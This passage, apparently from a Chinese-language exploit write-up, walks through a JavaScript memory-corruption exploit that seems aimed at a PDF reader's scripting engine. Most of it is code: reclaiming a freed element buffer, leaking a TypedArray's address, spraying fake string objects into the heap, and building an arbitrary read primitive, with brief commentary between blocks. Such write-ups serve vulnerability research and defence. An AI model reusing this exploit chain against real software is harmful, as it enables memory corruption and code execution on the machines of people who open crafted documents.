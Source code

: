 ```
    FREES_110[i][1] = 0xffffff81
}
T = null
for(var j=0; j&lt;8; j++) {
    try {
    // if the reclaim succeed the first element would be our injected number
        if (SOUNDS[j][0] == 0x33441122) {
            T = SOUNDS[j]
            break
        }
    } catch (err) {}
}
if (T==null) {
    console.println('RECLAIM element buffer FAILED')
    throw ''
} else console.println('RECLAIM element buffer SUCCEED')
```

从这一点出发，我们可以将伪造的Javascript对象放入elements缓冲区并泄漏分配给它的对象地址。以下代码用于找出哪个TypedArray是我们伪造的elements缓冲区并泄漏其地址。

```
/* create and leak the address of an array buffer */
WRITE_ARRAY = new Uint32Array(8)
T[0] = WRITE_ARRAY
T[1] = 0x11556611
for(var i=0; i&lt;FREE_110_SZ; i++) {
    if (FREES_110[i][0] != 0x33441122) {
        FAKE_ELES = FREES_110[i]
        WRITE_ARRAY_ADDR = FREES_110[i][0]
        console.println('WRITE_ARRAY_ADDR: ' + WRITE_ARRAY_ADDR.toString(16))
        assert(WRITE_ARRAY_ADDR&gt;0)
        break
    } else {
        FREES_110[i] = null
    }
}
```



## 任意读/写原语

为了获得任意读取原语，我将一串伪造的字符串对象喷射入堆中，然后将其分配到我们的elements缓冲区中。

```
GUESS = 0x20000058 //0x20d00058 
/* spray fake strings */
for(var i=0x1100; i&lt;0x1400; i++) {
    var dv = new DataView(SPRAY[i])
    dv.setUint32(0, 0x102,         true) //string header
    dv.setUint32(4, GUESS+12,     true) //string buffer, point here to leak back idx 0x20000064
    dv.setUint32(8, 0x1f,         true) //string length
    dv.setUint32(12, i,            true) //index into SPRAY that is at 0x20000058
    delete dv
}
gc()

//app.alert("Create fake string done")
/* point one of our element to fake string */
FAKE_ELES[4] = GUESS
FAKE_ELES[5] = 0xffffff85

/* create aar primitive */
SPRAY_IDX = s2h(T[2])
console.println('SPRAY_IDX: ' + SPRAY_IDX.toString(16))
assert(SPRAY_IDX&gt;=0)
```